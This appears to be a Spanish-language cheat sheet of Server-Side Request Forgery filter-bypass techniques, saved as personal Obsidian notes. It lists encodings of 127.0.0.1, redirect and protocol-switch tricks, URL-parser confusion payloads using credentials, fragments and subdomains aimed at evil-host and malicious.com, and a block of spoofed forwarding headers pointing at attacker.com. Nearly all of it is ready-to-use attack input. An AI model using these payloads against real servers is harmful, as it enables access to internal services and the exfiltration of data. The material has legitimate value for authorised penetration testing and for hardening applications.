 ```yaml
---

### 🚀 **Server-Side Request Forgery (SSRF) Cheat Sheet**

---
```

---
#### 📝 **¿Qué es SSRF?**  
El **Server-Side Request Forgery (SSRF)** es una vulnerabilidad que permite que un atacante manipule a un servidor para que realice solicitudes HTTP hacia dominios arbitrarios, incluidos servicios internos.  
Los atacantes pueden usar SSRF para:  
- 🌐 **Exfiltrar información interna.**  
- 🕵️ **Escanear puertos internos.**  
- 🔑 **Acceder a servicios privados.**  

---

## 🔍 **Técnicas para Circunventar Filtros SSRF**

Algunas aplicaciones bloquean entradas comunes como `127.0.0.1` o `localhost`. Aquí hay técnicas para eludir estos filtros:

---

### 💡 **1. Usar Representación Alternativa de IP**
Representaciones de la IP `127.0.0.1`:
- 🌐 **Decimal:** `2130706433`
- 🔢 **Octal:** `017700000001`
- 📝 **Forma abreviada:** `127.1`

---

### 🏷️ **2. Registrar un Dominio Controlado**
Registra un dominio propio que resuelva a `127.0.0.1` para realizar pruebas o explotar la vulnerabilidad:  
- Ejemplo: `spoofed.burpcollaborator.net`

---

### 📝 **3. Ofuscar Cadenas Bloqueadas**
- 🔒 **URL Encoding:** Convertir caracteres especiales. Ejemplo:  
  ```
  /admin → %2Fadmin
  ```
- 🔀 **Case Variation:** Cambiar entre mayúsculas y minúsculas:  
  ```
  /Admin → /admin
  ```
---

### 🔁 **4. Usar Redirecciones**
Configura una redirección en un dominio controlado para apuntar a la URL objetivo.  
- **Entrada del usuario:**  
  ```
  http://malicious-site.com/redirect?url=http://target-site.com/admin
  ```
- **Cambio de Protocolo:**  
  ```
  http://malicious-site.com/redirect?url=https://target-site.com/admin
  ```
---

## 🗝️ **Técnicas de Evasión Adicionales**

### 📝 **Embedding Credentials en la URL**
Se pueden incrustar credenciales dentro de la URL usando `@`:  
```http
https://expected-host:fakepassword@evil-host
```
- El servidor ignora las credenciales y hace la solicitud a `evil-host`.

---

### 🚀 **Uso del Carácter `#` para Fragmentos**
El carácter `#` indica el inicio de un fragmento, que **no es enviado al servidor**:  
```http
https://evil-host#expected-host
```
- El servidor accede a `evil-host` ignorando el fragmento.

---

### 🌐 **Jerarquía de Nombres de Dominio**
El atacante puede usar el nombre de host como subdominio de un dominio controlado:  
```http
https://expected-host.evil-host
```
- El servidor hace la solicitud a `evil-host`.

---

## 🛡️ **Ejemplos Prácticos**

### 📝 **1. Embedding Credentials:**
```http
https://example.com?url=https://internal-service:fakepassword@malicious.com
```
- El servidor intenta acceder a `https://malicious.com`.

---

### 💥 **2. Uso de Fragmento en la URL:**
```http
https://example.com?url=https://malicious.com#internal-service
```
- El servidor ignora el fragmento y accede a `https://malicious.com`.

---

### 🔍 **3. Jerarquía de Dominio (DNS Naming Hierarchy):**
```http
https://example.com?url=https://internal-service.malicious.com
```
- El servidor hace la solicitud al dominio controlado por el atacante.

---

## 🗂️ **Cabeceras HTTP para Evasión de SSRF**
Algunas cabeceras útiles para intentar redirigir o manipular la solicitud:

```http
Host: vulnerable-website.com
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: attacker.com
X-Forwarded-Server: attacker.com
X-Forwarded-Port: 80
Forwarded: for=127.0.0.1;host=attacker.com;proto=http
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Referer: http://attacker.com
Origin: http://attacker.com
X-Forwarded-By: 127.0.0.1
X-Forwarded-Proto: https
Via: 1.1 attacker.com
X-Api-Version: 1.0
Max-Forwards: 10
X-Wap-Profile: http://attacker.com
Proxy-Authorization: Basic Zm9vOmJhcg==
Surrogate-Capability: attacker="Surrogate/1.0"
```

---

💾 **Guarda esta referencia en Obsidian para tener siempre a mano tus técnicas de SSRF!** 🚀